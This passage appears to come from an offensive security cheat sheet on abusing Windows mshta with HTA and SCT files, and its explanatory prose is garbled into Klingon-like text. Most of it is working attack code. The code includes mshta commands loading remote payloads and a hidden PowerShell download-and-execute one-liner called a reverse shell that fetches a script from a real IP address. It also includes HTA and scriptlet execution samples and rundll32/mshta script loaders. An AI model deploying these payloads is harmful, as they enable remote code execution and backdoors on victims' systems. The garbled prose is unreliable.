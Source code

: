 ```bash
mshta http://webserver/payload.hta
```

```bash
mshta \\webdavserver\folder\payload.hta
```
#### **Example of hta-psh reverse shell (use hta to download and execute PS backdoor)**

#### **hta-psh reverse shell jatlh (hta vItlhutlh je PS backdoor download je execute)**
```xml
<scRipt language="VBscRipT">CreateObject("WscrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://119.91.129.12:8080/1.ps1')"</scRipt>
```
**tlhIngan Hol:**
**jIyItlhutlh:** 
**vaj:** 
[**ghaH**](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
```xml
<html>
<head>
<HTA:APPLICATION ID="HelloExample">
<script language="jscript">
var c = "cmd.exe /c calc.exe";
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```
#### **mshta - sct**

[**ghItlh**](https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17)
```xml
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:C:\local\path\scriptlet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
#### **Mshta - Metasploit**
